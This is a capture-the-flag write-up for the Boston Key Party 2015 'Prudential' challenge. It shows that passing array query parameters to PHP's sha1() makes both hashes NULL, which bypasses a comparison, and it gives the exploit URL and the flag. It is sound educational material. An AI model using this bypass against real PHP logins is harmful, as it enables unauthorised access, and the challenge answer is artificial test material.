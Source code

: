 # Boston Key Party CTF 2015: Prudential

**Category:** School-Bus
**Points:** 25
**Solves:** 426
**Description:**

> I dont think that sha1 is broken. Prove me wrong. : 25

## Write-up

We are given the [php source code](./52.10.107.64\:8001/index.txt) and see that the author compares the sha1 hashes of the `name` and `password` query parameters:

```php
[...]
else if (sha1($_GET['name']) === sha1($_GET['password']))
[...]
```

We can force the results for both inputs to be null, e.g. with `http://52.10.107.64:8001/?name[]=s&password[]=ss` so that it results in the following check:

```php
[...]
else if (sha1(NULL) === sha1(NULL))
[...]
```

The flag is `I_think_that_I_just_broke_sha1`.

## Other write-ups and resources

* <https://github.com/bl4de/ctf/blob/master/BostonKeyPartyCTF_2015/Prudential.md>
